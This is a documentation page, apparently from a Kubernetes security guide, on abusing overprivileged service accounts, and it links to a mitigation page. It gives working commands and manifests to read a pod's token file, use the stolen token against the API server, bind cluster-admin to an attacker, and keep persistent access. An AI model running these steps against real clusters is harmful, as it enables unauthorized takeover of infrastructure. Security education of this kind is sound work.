 ```yaml
---
sidebar_position: 13
title: "Privileged Service Accounts"
description: "How attackers exploit overly privileged Kubernetes Service Accounts to gain cluster-wide access and escalate privileges."
---
```


# Privileged Service Accounts

Kubernetes **Service Accounts (SAs)** are used by pods to authenticate against the Kubernetes API. When overprivileged or misconfigured, they can be exploited by attackers to **escalate privileges, gain unauthorized access, and persist within the cluster**.

---

## Exploitation Steps: Abusing Overprivileged Service Accounts

An attacker targets insecure or overly permissive Service Accounts to compromise cluster security.

### 1. Enumerate Service Accounts and Roles

The attacker identifies all existing Service Accounts:

```bash
kubectl get serviceaccounts --all-namespaces
```

Then inspects associated role bindings:

```bash
kubectl get clusterrolebindings -o json | jq '.items[] | select(.subjects[].kind=="ServiceAccount")'
```

They look for accounts with elevated roles like `cluster-admin`.

---

### 2. Extract a Service Account Token

The attacker identifies a pod using a high-privilege Service Account and extracts its token:

```bash
kubectl exec -it attacker-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

They decode and use it to access the Kubernetes API:

```bash
export TOKEN=<stolen-token>
curl -H "Authorization: Bearer $TOKEN" https://<api-server>/api/v1/pods
```

This enables **API access with elevated privileges**.

---

### 3. Escalate Privileges via RBAC Misconfigurations

If the Service Account has rights to create role bindings, the attacker escalates access:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: escalate-privileges
  namespace: default
subjects:
  - kind: User
    name: attacker
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

```bash
kubectl apply -f escalate-privileges.yaml
```

This grants the attacker **cluster-admin rights**.

---

### 4. Establish Persistence via New Service Account

The attacker creates a new Service Account:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: persistent-access
  namespace: default
```

And binds it to `cluster-admin`:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: persist-access
subjects:
  - kind: ServiceAccount
    name: persistent-access
    namespace: default
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

This ensures **continued access**, even if their original access is revoked.

---

### Result

The attacker successfully **exploits Service Account misconfigurations** to:

- **Access the Kubernetes API**
- **Escalate to cluster-admin**
- **Maintain persistent access to the cluster**

---

## Mitigation

➡ [Securing Kubernetes Service Accounts](/docs/best_practices/cluster_setup_and_hardening/rbac_and_identity/service_account_mitigation)
